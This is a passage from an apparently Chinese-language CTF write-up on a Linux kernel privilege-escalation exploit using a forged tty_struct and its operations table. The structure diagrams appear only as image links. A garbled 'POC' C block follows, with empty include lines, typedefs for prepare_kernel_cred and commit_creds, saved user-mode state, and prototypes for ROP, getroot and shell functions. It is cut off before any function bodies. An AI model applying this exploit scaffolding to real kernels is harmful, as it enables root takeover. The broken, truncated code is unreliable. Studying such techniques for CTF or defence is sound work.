 ![](https://pig-007.oss-cn-beijing.aliyuncs.com/img/20211010234216.png)

### 4. 最终结构

#### fake_tty_struct 结构体

![](https://pig-007.oss-cn-beijing.aliyuncs.com/img/20211010235018.png)

#### fake_tty_operation 结构体

![](https://pig-007.oss-cn-beijing.aliyuncs.com/img/20211010235328.png)

 

![](https://pig-007.oss-cn-beijing.aliyuncs.com/img/20211010235417.png)

POC
---

```
#include #include #include #include #include #include #include #include #include #include #include struct cred;
struct task_struct;
typedef struct cred *(*prepare_kernel_cred_t) (struct task_struct *daemon) __attribute__((regparm(3)));
typedef int (*commit_creds_t) (struct cred *new) __attribute__((regparm(3)));
prepare_kernel_cred_t   prepare_kernel_cred;
commit_creds_t    commit_creds;
 
unsigned long user_cs;
unsigned long user_ss;
unsigned long user_rflags;
unsigned long user_sp;
 
#define tty_size 0x2e0
 
 
struct addNote
{
    size_t len;
    char* data;
};
 
struct editNote
{
    size_t idx;
    size_t len;
    char* data;
};
 
 
 
//ROP func
unsigned long findAddr();
void save_state();
void getroot (void);
void shell(void);
 
//open dev
int openDev(char* pos);
void addFun(int fd,struct addNote* arg);
void freeFun(int fd,struct editNote* arg);
void editFun(int fd,struct editNote* arg);
void readFun(int fd,struct editNote* arg);
```